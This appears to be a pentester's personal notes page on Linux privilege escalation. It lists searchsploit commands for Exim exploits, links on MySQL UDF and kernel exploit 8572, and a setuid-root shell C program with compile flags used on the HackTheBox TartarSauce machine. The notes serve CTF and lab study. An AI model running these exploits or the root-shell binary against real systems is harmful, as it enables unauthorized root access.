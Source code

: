 ## MySQL Priv Esc
Check if MySQL is being run as `root`!
https://www.exploit-db.com/exploits/1518
https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf

## Exim 4.84-3
```sh
searchsploit -m 39535
```

## Exim 4.87-4.91
```sh
searchsploit -m 46996
```
After using exploit, if root shell doesn't spawn, press `^D` 

---
# Kernel Exploits

## Linux 2.6 Exploit (8572)
https://www.yeahhub.com/linux-privilege-escalation-with-kernel-exploit-8572-c/


#### Kernel Exploit Issues
While running $.C$ kernel exploits, if you face this issue
`gcc: error trying to exec 'cc1': execvp: No such file or directory`
Try checking the [[Path]]


### TartarSauce HTB Box Priv Esc
```C
#include<stdio.h>
#include<stdlib.h>
#include<sys/types.h>
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("/bin/sh");
}
```

```sh
# Issue facing was `GLIBC_2.34` not found
gcc exploit.c -static -m32 -Wl,--rpath="$GLIBC_2_33_LD" -o exploit
```
